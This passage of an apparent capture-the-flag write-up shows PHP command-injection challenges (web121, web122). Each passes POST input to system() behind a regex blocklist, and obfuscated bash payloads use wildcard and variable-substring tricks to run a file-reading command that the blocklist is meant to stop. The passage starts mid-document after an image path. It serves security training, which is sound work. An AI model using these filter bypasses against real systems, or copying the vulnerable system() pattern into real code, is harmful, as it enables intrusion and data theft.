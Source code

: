 ```php

```

**payload**

```
${PWD::${#SHLVL}}???${PWD::${#SHLVL}}?${USER:~A}? ????.???
```

---

#### web121

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
if(isset($_POST['code'])){
    $code=$_POST['code'];
    if(!preg_match('/\x09|\x0a|[a-z]|[0-9]|FLAG|PATH|BASH|HOME|HISTIGNORE|HISTFILESIZE|HISTFILE|HISTCMD|USER|TERM|HOSTNAME|HOSTTYPE|MACHTYPE|PPID|SHLVL|FUNCNAME|\/|\(|\)|\[|\]|\\\\|\+|\-|_|~|\!|\=|\^|\*|\x26|\%|\<|\>|\'|\"|\`|\||\,/', $code)){    
        if(strlen($code)>65){
            echo '<div align="center">'.'you are so long , I dont like '.'</div>';
        }
        else{
        echo '<div align="center">'.system($code).'</div>';
        }
    }
    else{
     echo '<div align="center">evil input</div>';
    }
}

?>

```

**payload**

```
${PWD::${#?}}???${PWD::${#?}}?????${#RANDOM} ????.???
```

---

#### web122

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
if(isset($_POST['code'])){
    $code=$_POST['code'];
    if(!preg_match('/\x09|\x0a|[a-z]|[0-9]|FLAG|PATH|BASH|PWD|HISTIGNORE|HISTFILESIZE|HISTFILE|HISTCMD|USER|TERM|HOSTNAME|HOSTTYPE|MACHTYPE|PPID|SHLVL|FUNCNAME|\/|\(|\)|\[|\]|\\\\|\+|\-|_|~|\!|\=|\^|\*|\x26|#|%|\>|\'|\"|\`|\||\,/', $code)){    
        if(strlen($code)>65){
            echo '<div align="center">'.'you are so long , I dont like '.'</div>';
        }
        else{
        echo '<div align="center">'.system($code).'</div>';
        }
    }
    else{
     echo '<div align="center">evil input</div>';
    }
}
```